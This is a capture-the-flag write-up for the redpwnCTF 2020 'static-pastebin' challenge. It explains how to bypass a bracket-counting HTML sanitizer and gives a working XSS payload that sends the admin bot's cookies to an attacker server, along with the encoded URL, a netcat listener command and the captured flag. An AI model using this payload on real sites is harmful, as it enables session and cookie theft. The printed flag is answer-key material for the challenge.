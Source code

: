 # static-pastebin

Author: [roerohan](https://github.com/roerohan)

This challenge uses XSS to get the flag from the `admin bot's` cookies.

# Requirements

- Basic Knowledge of XSS.
- A web server where you can accept a request.

# Source

- https://static-pastebin.2020.redpwnc.tf/

# Exploitation

First, try a random `<h1>Hello</h1>` tag to see if you can put HTML in your pastebin. You can see the `js` file in the page:

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

We can infer 2 things from this.

- The content of the page is obtained from the URL, which is a base64 encoded form of the text you entered.
- The `clean` function will not allow writing of text if bracket pairs do not match.

It is rather easy to break this clean function, by adding an extra `>` at the starting of your XSS script. Here's the payload:

```
><img src=1 href=1 onerror="javascript:document.location='http://ip:port?cookie='+document.cookie"></img>
```

Your payload has the following URL:

```
https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPTEgaHJlZj0xIG9uZXJyb3I9ImphdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly9pcDpwb3J0P2Nvb2tpZT0nK2RvY3VtZW50LmNvb2tpZSI+PC9pbWc+
```

You can simply set up a `netcat listener` using `nc -l port` on your server, and pass the link to the `Admin Bot` [here](https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin&url=https%3A%2F%2Fstatic-pastebin.2020.redpwnc.tf%2Fpaste%2F%23PjxpbWcgc3JjPTEgaHJlZj0xIG9uZXJyb3I9ImphdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly9jc2l2aXQuY29tOjkwMDE%2FY29va2llPScrZG9jdW1lbnQuY29va2llIj48L2ltZz4%3D&message=The%20admin%20has%20visited%20your%20URL.). The admin bot is basically a headless chrome browser which has the flag in it's cookies. When it visits your site, the XSS steals the cookies from the admin bot and sends it to your server. You get a request which looks like:

```
GET /?cookie=flag=flag{54n1t1z4t10n_k1nd4_h4rd} HTTP/1.1
Host: ip:port
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/83.0.4103.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
```

The flag is:

```
flag{54n1t1z4t10n_k1nd4_h4rd}
```